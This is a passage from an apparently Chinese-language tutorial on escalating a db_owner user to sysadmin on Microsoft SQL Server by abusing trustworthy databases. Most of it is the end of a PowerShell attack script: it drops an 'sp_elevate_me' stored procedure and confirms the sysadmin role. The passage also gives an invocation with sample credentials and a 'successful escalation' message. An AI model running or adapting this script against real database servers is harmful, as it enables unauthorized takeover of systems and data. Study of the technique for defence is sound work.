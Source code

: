         # Remove stored procedure
            $conn.Open()
            $QueryElevate = "drop proc sp_elevate_me"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close() 

        # Verify that privilege escalation works
            If (-Not ($newuser -and $newPass)){
                $conn.Open()
                $QueryElevate = "select is_srvrolemember('sysadmin') as IsSysAdmin"
                $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
                $results = $cmd.ExecuteReader() 
                $CheckforSysadmin.Load($results) 
                $conn.Close() 

                $CheckforSysadmin | Select-Object -First 1 IsSysAdmin | foreach {

                    $Checksysadmin2 = $_.IsSysAdmin
                    if ($Checksysadmin2 -ne 0){
                        write-host "[*] Success! - $UsertoElevate is now a sysadmin." -foreground "green" 
                    }else{
                        write-host "[*] Sorry, something failed, no sysadmin for you." -foreground "red"
                    }
                }    
             }       
        }else{
             write-host "[*] Sorry, $ConnectUser doesn't have the db_owner role in any of the sysadmin databases." -foreground "red" 
        }
        
        write-host "[*] All done." 
    }

首先我们先把sysadmin的权限取消掉，这里可以自行取消掉，但是要添加就会报错

![15.png](./resource/Mssql受信用数据库提权/media/rId46.png)

    Invoke-SqlServer-Escalate-DbOwner -SqlUser MyAppUser01 -SqlPass MyPassword! -SqlServerInstance WIN-80LVKKRM5UA

![16.png](./resource/Mssql受信用数据库提权/media/rId47.png)

成功提权！！

参考链接
--------

> https://xz.aliyun.com/t/8188
